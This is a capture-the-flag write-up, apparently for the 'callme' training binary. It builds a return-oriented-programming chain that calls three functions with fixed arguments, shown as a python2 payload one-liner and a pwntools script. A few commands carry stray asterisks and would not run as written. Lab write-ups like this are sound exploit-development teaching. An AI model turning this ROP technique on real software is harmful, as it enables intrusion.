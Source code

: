 # Basic Test:

## Check call system into binary file
```bash
strace ./callme
```

## Check protection into binary file
```bash
checksec ./callme
```

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'

<br>

# Exploitation:

## Clear the kernel ring buffer
```bash
sudo dmesg -C
```

## Find offset for overwrite RIP
```bash
python2 -c 'print "A"*40 + "B"*4*' | ./callme
```

## See output
```bash
sudo dmesg -T
```

	[dim. avril  9 13:59:38 2023] callme[109227]: segfault at a42424242 ip 0000000a42424242 sp 00007ffef8e2a290 error 14 in libc.so.6[7fd84201f000+26000] likely on CPU 0 (core 0, socket 0)

## Find the a gadget for three parameters

```bash
ROPgadget --binary ./callme | grep "pop rdi ; pop rsi ; pop rdx"
```
 
	0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret

## Write the 3 function parameters

	args_1: BIG ENDIAN 0xdeadbeefdeadbeef => LITTLE ENDIAN \xef\xbe\xad\xde\xef\xbe\xad\xde 
	args_2: BIG ENDIAN 0xcafebabecafebabe => LITTLE ENDIAN \xbe\xba\xfe\xca\xbe\xba\xfe\xca
	args_3: BIG ENDIAN 0xd00df00dd00df00d => LITTLE ENDIAN \x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0

## Find the address of the 3 functions
```bash
pwngdb> disass*usefulFunction
```

	   0x00000000004008f2 <+0>:     push   rbp
	   0x00000000004008f3 <+1>:     mov    rbp,rsp
	   0x00000000004008f6 <+4>:     mov    edx,0x6
	   0x00000000004008fb <+9>:     mov    esi,0x5
	   0x0000000000400900 <+14>:    mov    edi,0x4
	   0x0000000000400905 <+19>:    call   0x4006f0 <callme_three@plt>
	   0x000000000040090a <+24>:    mov    edx,0x6
	   0x000000000040090f <+29>:    mov    esi,0x5
	   0x0000000000400914 <+34>:    mov    edi,0x4
	   0x0000000000400919 <+39>:    call   0x400740 <callme_two@plt>
	   0x000000000040091e <+44>:    mov    edx,0x6
	   0x0000000000400923 <+49>:    mov    esi,0x5
	   0x0000000000400928 <+54>:    mov    edi,0x4
	   0x000000000040092d <+59>:    call   0x400720 <callme_one@plt>
	   0x0000000000400932 <+64>:    mov    edi,0x1
	   0x0000000000400937 <+69>:    call   0x400750 <exit@plt>

## Payload final CLI

```bash
python2 -c 'print "A"*40 + "\x3c\x09\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0" + "\x20\x07\x40\x00\x00\x00\x00\x00" + "\x3c\x09\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0" + "\x40\x07\x40\x00\x00\x00\x00\x00" + "\x3c\x09\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0" + "\xf0\x06\x40\x00\x00\x00\x00\x00"' | ./callme # pop rdi ; pop rsi ; pop rdx = 0x000000000040093c + args1 = 0xdeadbeefdeadbeef + args2 = 0xcafebabecafebabe + args3 = 0xd00df00dd00df00d + call callme_one = 0x400720 + pop rdi ; pop rsi ; pop rdx = 0x000000000040093c + args1 = 0xdeadbeefdeadbeef + args2 = 0xcafebabecafebabe + args3 = 0xd00df00dd00df00d + call callme_two = 0x400740 + pop rdi ; pop rsi ; pop rdx = 0x000000000040093c + args1 = 0xdeadbeefdeadbeef + args2 = 0xcafebabecafebabe + args3 = 0xd00df00dd00df00d + call callme_three = 0x4006f0
```

## Python2 pwntools script
```python
#usr/bin/python2
from pwn import *

  

padding = "A"*40
pop_rsi_rdi_rdx = p64(0x000000000040093c)
args1 = p64(0xdeadbeefdeadbeef)
args2 = p64(0xcafebabecafebabe)
args3 = p64(0xd00df00dd00df00d)
callme_one = p64(0x400720)
callme_two = p64(0x400740)
callme_three = p64(0x4006f0)

  

payload = padding + pop_rsi_rdi_rdx + args1 + args2 + args3 + callme_one
payload += pop_rsi_rdi_rdx + args1 + args2 + args3 + callme_two
payload += pop_rsi_rdi_rdx + args1 + args2 + args3 + callme_three

  

io = process("./callme")
io.sendline(payload)
io.interactive()
```